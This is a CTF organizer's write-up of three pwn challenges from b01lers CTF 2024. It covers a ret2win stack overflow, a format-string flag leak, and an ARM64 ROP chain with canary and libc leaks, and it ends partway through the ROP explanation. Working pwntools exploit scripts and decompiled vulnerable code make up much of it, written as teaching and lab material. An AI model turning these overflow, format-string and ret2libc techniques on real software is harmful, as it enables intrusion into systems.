This past weekend, I had the privilege of hosting b01lers CTF 2024 along with the rest of my team. They are a group of incredible individuals and there is no one I'd rather do it alongside. What follows are write-ups and intended solutions for the three pwn challenges I developed; shall-we-play-a-game, seeing-red, and arm-and-a-leg. Enjoy! 

# shall-we-play-a-game | pwn

This challenge was inspired by the classic hacker movie War Games. Movies are a part of the reason I became interested in the computing field and I hoped to share that with participants. As such, this challenge was beginner focused, as everyone deserves a chance to pwn something during a CTF :)

To start, users are given a challenge binary, `chal` and the Dockerfile (however this really isn't needed, it doesn't depend on a libc or anything). Let's have a look at what the challenge looks like in ghidra. 

Here are the contents of `main()`
```c
undefined8 main(void) {
  char local_b8 [48];
  char local_88 [48];
  char local_58 [16];
  char local_48 [64];
  
  setbuf(stdout,(char *)0x0);
  puts("GREETINGS PROFESSOR FALKEN.");
  fgets(local_58,0x13,stdin);
  puts("HOW ARE YOU FEELING TODAY?");
  fgets(local_88,0x23,stdin);
  puts(
      "EXCELLENT. IT\'S BEEN A LONG TIME. CAN YOU EXPLAIN THE\nREMOVAL OF YOUR USER ACCOUNT ON 6/23/ 73?"
      );
  fgets(local_b8,0x23,stdin);
  puts("SHALL WE PLAY A GAME?");
  fgets(local_48,0x56,stdin);
  return 0;
}
```

So we can see it trys to emulate the behavior of the computer that David Lightman (Matthew Broderick) hacks. Within the first few prompts there doesn't seem to be a problem. However, when asked "SHALL WE PLAY A GAME", the call to `fgets()` takes in way more input that necessary. It stands to reason that we can gain control of the instruction pointer, rip, because there is no canary and PIE is not enabled. 



To demonstrate this, we can open the program in pwndbg and use the `cyclic` command to generate a long string and calculate how many chars we will need to gain control. 



As we can see, we segfault trying to return to `jaaaaaaa`, or `0x616161616161616a`. And using `cyclic -l jaaaaaaa` we can see that we have an offset of 72 bytes until `rip`. Now, where to go from here? Examining the rest of the binary we can see that there is a function called `global_thermo_nuclear_war()`, yet another movie reference. 

```c
void global_thermo_nuclear_war(void) {
  char local_118 [264];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 == (FILE *)0x0) {
    puts("flag.txt not found");
  }
  else {
    fgets(local_118,0x100,local_10);
    puts(local_118);
  }
  return;
}
```
This function appears to print the flag out to us if we can call it. And with control of `rip` this is possible. We'll have to write a python script with `pwntools` to send in 72 bytes of junk and then the address of `global_thermo_nuclear_war()`. The script to do so is below. Hope you enjoyed! 

```python
from pwn import *

elf = context.binary = ELF('chal');
#p = elf.process()
p = remote('gold.b01le.rs', 4004)

context.terminal = ['tmux', 'split-window', '-h']
gdb_script = '''
init-pwndbg
break *main
'''
#gdb.attach(p, gdb_script)
offset = 72
payload = flat([
    'a' * offset,
    elf.symbols['global_thermo_nuclear_war']
])

p.sendlineafter(b'FALKEN', b'Hello.')
p.sendlineafter(b'TODAY?\n', b'Pretty good')
p.sendlineafter(b'/73?\n', b'People make mistakes')

p.sendlineafter(b'GAME?\n', payload)

p.interactive()
```

# seeing-red | pwn

Inspired by one of my favorite Taylor Swift songs, seeing-red is another easy-medium pwn challenge. I wanted to combine a ret2win style challenges with a format string exploit. The goal here was not to get shell even though it seems some people did, this was not my intention. 

To start, we again distribute the challenge binary and a Dockerfile. The Dockerfile is again not needed here, just included for convenience. Let's throw the challenge in ghidra and have a look at the `main()` function. 

```c
undefined8 main(void) {
  setbuf(stdout,(char *)0x0);
  help_me();
  printf("sooo... anyways whats your favorite Taylor Swift song? ");
  fflush(stdout);
  read(0,song,200);
  printf("Ooohh! ");
  printf(song);
  puts("Thats a good one!");
  return 0;
}
```
Looks like it first calls the `help_me()` function, so lets take a look at that. 

```c
undefined8 help_me(void) {
  char local_48 [64];
  
  puts("I was going to go to the eras tour, but something came up :(");
  puts("You can have my ticket! Only thing is... I forgot where I put it...");
  puts("Do you know where it could be?! ");
  fgets(local_48,100,stdin);
  fflush(stdin);
  return 0;
}
```
Wow, they can't go AND lost their ticket? How tragic. Anyway, looks like we've got a buffer overflow so thats a plus! But where to go? Looking elsewhere in the binary, there is a function called `use_ticket()` that we can maybe leverage. 

```c
void use_ticket(void *param_1) {
  FILE *__stream;
  size_t sVar1;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    printf("flag.txt not found");
  }
  else {
    sVar1 = fread(param_1,1,0x27,__stream);
    *(undefined *)((long)param_1 + (long)(int)sVar1) = 0;
  }
  return;
}
```

It looks like flag.txt is being read into a global buffer. But how is this helpful, it doesn't even print it back out? If we go back to main, there is another vulnerability in the form of a format string exploit. When we are asked what our favorite taylor swift song is, it is printed back out to us. So, we can leak things off the stack. See where I'm going? 

If we can overflow the buffer, return to `use_ticket()` then a buffer containing the contents of flag.txt is on the stack. Then we can ensure we go back to `main()` where we can use the `printf()` vuln to leak the string out of that buffer on the stack with `%s`. To do that, we've gotta find a few things. One, the offset to `rip` so we can return to `use_ticket()` and the offset on the stack at which the flag.txt buffer is so we can leak it off the stack. 

First, let's take a look at how we can control `rip`. We'll use the same methodology in the above challenge; generating a De Bruijn sequence and seeing how many chars are needed for the overflow. 



Looks like we've got an offset of 72 chars before we control `rip`. Using this we can start writing an exploit. 

```python
from pwn import *

elf = context.binary = ELF("chal")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()

gdb_script = '''
init-pwndbg
'''
#gdb.attach(p, gdb_script)

offset = 72
payload = flat([
    'a' * offset,
    elf.symbols['use_ticket']
])

p.sendline(payload)
p.interactive()
```

The above script will let us crash the buffer and return to `use_ticket()`. So where to next? Well, we've gotta continue execution flow to `main()` to take advantage of the `printf()` vuln. To do this, we can use `pwndbg` to find an address in `main()` to return to. 



Looks like `0x000000000040131f` is a good address to return to as it is just after the call to the `help_me()` function. So, now that we've gotten back to main, we can continue program execution until the `printf()` vuln which comes after we are asked for our favorite Taylor Swift song. But, how do we leak the flag? Well since there is no format specifier provided when our input is printed back out to us (see the `main()` code above) we can provide our own. For instance, we can provide `%s` to arbitrarily print a string off the stack. We can take it further and use the `%<offset>$p` notation to leak at specific stack offsets. For instance, we can leak the 3rd offset with `%3$p`. 

Let's inspect the stack before that `printf` is called to see what offset we need to leak. Remember, the global buffer is left on the stack from the previous function. 



Above we can see that after `use_ticket()` is called our flag is read into a buffer, in this case `0x2167490`. 



Now, we are right at the `printf()` function in main where our input is about to be printed out. With the command `x/-40gx $rsp` we can print the values on the stack relative to the stack pointer. Note that the `-40gx` prints the values on the previous stack frames. Notice the **red** rectangle is our flag buffer. The **green** rectangle is the first offset, so what you get if you were to send in `%1$p`. From that we can calculate that we'll need to do `%5$s` to print the string at the fifth offset, which is the flag buffer. 

And that should do it! Below is the final script and resulting output. 

```python
from pwn import *

elf = context.binary = ELF("chal")
context.terminal = ['tmux', 'split-window', '-h']
#p = elf.process()
p = remote('gold.b01le.rs', 4008)

gdb_script = '''
init-pwndbg
'''
#gdb.attach(p, gdb_script)

offset = 72
main_offset = 0x000000000040131f
ret = 0x000000000040101a
bruh = 0x00000000004012af
payload = flat([
    'a' * 64,
    'b' * 8,
    elf.symbols['use_ticket'],
    ret,
    main_offset
])

p.sendline(payload)
#p.sendlineafter(b'song?', "%1$p")
p.sendlineafter(b'song? ', b'%5$s')
p.interactive()
```

Note that there is an extra `ret` instruction in the exploit chain for stack alignment purposes. 



And we get the flag! 

# arm-and-a-leg | pwn

This challenge was inspired by MITRE's eCTF as it had me learn ARM assembly. Also I think mixing the ARM architecture with a pun about something costing "an arm and a leg" is funny. I find it really interesting as ARM is a RISC architecture, which is different than x86 which is what i started with. The goal of this challenge was to leverage some fun ROP gadgets to load x0 with a pointer to `/bin/sh` and call system. However, it looks like people manually found one_gadgets in the appropriate libc. I didn't intend this and in my opinion it isn't as fun, but hey, whatever gets the job done, right? 

Let's start by looking at the main function in ghidra. 

```c
undefined8 main(void) {
  int iVar1;
  int local_c;
  long local_8;
  
  local_8 = __stack_chk_guard;
  setup(&__stack_chk_guard,0);
  iVar1 = puts(
              "Hello! \nWelcome to ARMs and Legs, here for all of your literal and metaphorical need s!");
  print_menu(iVar1);
  __isoc99_scanf(&DAT_00400d08,&local_c);
  if (local_c == 1) {
    iVar1 = puts(
                "So, you\'d like to purchase an ARM...are you worthy enough to purchase such an appe ndage?");
    iVar1 = worthyness_tester(iVar1);
    if (iVar1 == 0) {
      get_address();
      feedback();
    }
    else {
      puts("Close, but no cigar. Maybe try a Leg?");
    }
  }
  else if (local_c == 2) {
    iVar1 = puts(
                "So, you\'d like to purchase a Leg...are you worthy enough to purchase such an appen dage?!");
    iVar1 = worthyness_tester(iVar1);
    if (iVar1 == 0) {
      get_address();
      feedback();
    }
    else {
      puts("Close, but no cigar. Maybe try an ARM?");
    }
  }
  if (local_8 - __stack_chk_guard == 0) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail(&__stack_chk_guard,0,0,local_8 - __stack_chk_guard);
}
```

First, it appears as though we can make two choices; to purchase either an ARM or leg. No matter what we choose, if `worthyness_tester()` returns 0, two more functions (`get_address()`, and `feedback()`) are called, or else we exit. Let's have a look inside the `worthyness_test()` function and see how we can get it to return 0. 

```c
bool worthyness_tester(void) {
  bool bVar1;
  int local_10;
  int local_c;
  long local_8;
  
  local_8 = __stack_chk_guard;
  puts("What number am I thinking of?");
  local_c = 0x539;
  __isoc99_scanf(&DAT_00400d08,&local_10);
  bVar1 = local_c != local_10;
  if (!bVar1) {
    printf("Wow, you may now purchase an appendage!");
  }
  if (local_8 - __stack_chk_guard == 0) {
    return bVar1;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail(&__stack_chk_guard,bVar1,0,local_8 - __stack_chk_guard);
}
```

Looks like in order for the function to return 0, we've gotta input the correct number the program is thinking of. I hardcoded it to be `1337`, which above is represented in hex as `0x539`. So, when prompted, we just have to enter that. 

In all honesty I was gonna make a function that computed a random number that could be fun to reverse, but I was waiting to implement it till I got an exploit working. Then when I went to implement it my exploit didn't work and I didn't want to rewrite everything. Plus I figured that'd just add an extra unnecessary step. 

Next we'll look at the first function that runs after we guess the "random" number successfully which is `get_address()`. 

```c
void get_address(void) {
  int iVar1;
  char acStack48 [40];
  long local_8;
  
  local_8 = __stack_chk_guard;
  printf("\tCould we have an address to ship said appendage? ",0);
  __isoc99_scanf(&DAT_00400ea0,acStack48);
  printf("\nThanks, we will ship to: ");
  printf(acStack48);
  iVar1 = putchar(10);
  clear_buffer(iVar1);
  if (local_8 - __stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - __stack_chk_guard);
  }
  return;
}
```
Upon successful purchase of an appendage, it looks like we have to give an address to ship it. If you'll notice, once we give an input, our "address" is printed back out to us with `printf()`, again with no format specifier! 

Yes, I like `printf()` exploits. 

Anyway, we can use this to leak values off the stack. We'll need leaks for libc and for the canary. So, lets build the start of an exploit script and see if we can't find some useful addresses. 

```python
from pwn import *

context.terminal = ['tmux', 'split-window', '-h']

elf = context.binary = ELF('chalarm')
libc = ELF('libc.so.6')
ld = ELF('ld-linux-aarch64.so.1')

#p = process('qemu-aarch64 -g 1234 chal'.split())
#p = process('qemu-aarch64 chal'.split())

p = remote('arm-and-a-leg.gold.b01le.rs', 1337)

p.sendlineafter(b'2. Legs\n', b'1')
p.sendlineafter(b'of?\n', b'1337')
# These are leaks for chal with pie
p.sendlineafter(b'appendage? ', b'%21$p%19$p')

p.recv()
leaks = p.recv().split(b'0x')
# libc_start_main + 152 is at the 21st offset MAKE SURE TO SUBTRACT 152 FROM THE LEAK
libc_start_main_leak = leaks[1]
libc_start_main = int(libc_start_main_leak, 16) - 152

# Canary at 19th offset
canaryleak = leaks[2].split(b'\n')[0]
canary = int(canaryleak, 16)

libc.address = libc_start_main - libc.symbols['__libc_start_main']
```
Above we set up some basic pwntools functionality and then send that `1337` value to satisfy the `worthynes_tester()`. After that, we send in our `printf()` payload to start leaking stuff off the stack. Thenm we parse our leaks, which end up being the `__libc_start_main() + 152` and the canary. We also calculate the base of libc, with the libc that can be extracted from the docker container. Let's have a look in GDB so that you can get a clearer picture of why we chose the `printf()` offsets of `%21$p` and `%19$p`. 



The **dark blue** rectangle (1st one down) is the 19th offset and is the canary and the **light blue** rectangle (2nd one down) is the address of `__libc_start_main() + 152`
which is the 21st offset. Now that we have these leaks, what can we do? Well, we'll have to return to system within libc and use that to get a shell. 

To do this, I embedded some gadgets within the challenge to make this fun. The main thing is getting `x0` to contain a pointer to `/bin/sh`. 

The first thing we'll have to do is overflow the buffer in the `feedback()` function seen below; we are asked for some feedback after we provide our address. 

```c
void feedback(void) {
  char acStack112 [104];
  long local_8;
  
  local_8 = __stack_chk_guard;
  puts("Care to leave some feedback?!");
  fgets(acStack112,0x100,stdin);
  puts("Thanks!");
  if (local_8 - __stack_chk_guard != 0) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail(&__stack_chk_guard,0,local_8 - __stack_chk_guard);
  }
  return;
}
```

But before we overflow anything, let's take a look at the stack before the overflow so we can get a feel for what it looks like it. This is the instruction right before the call to `fgets`. Notice the address `0x550080060` is marked as in `x0`. This would be the input buffer as `x0` denotes the first arg of `fgets` which is said input buffer. 



In order to fill up all 104 chars, we'll need to send in 104 chars of junk. And then, we'll need the canary so as to not trip that protection. We leaked it prior, so we can send it back in. Then we'll need 8 bytes for the "base pointer" and then we can place our first gadget. Below is a view of the stack right after the ROP chain is sent in. 



I guess I should explain the intended solve before we go any further. 

Let's keep in mind that we need to populate x0 with a pointer to `/bin/sh`. Also keep in mind that in ARM, the return address of the current function is stored within the Link Register (`x30`) which is before our input on the stack. So, we are overflowing the return address of `main()`. I had a lot of fun writing this ROP chain. 

The first gadget we'll start with is `mov x2, sp; ldp x29, x30, [sp], #0x10; ret`. Here, we'll save the current stack pointer (we'll need it later) into `x2` then load a pair of values relative to the stack pointer into `x29` and `x30`, respectively, then return. `x29` is the base pointer and `x30` is the place where the return address is stored; so, we'll be heading to the value there next. 

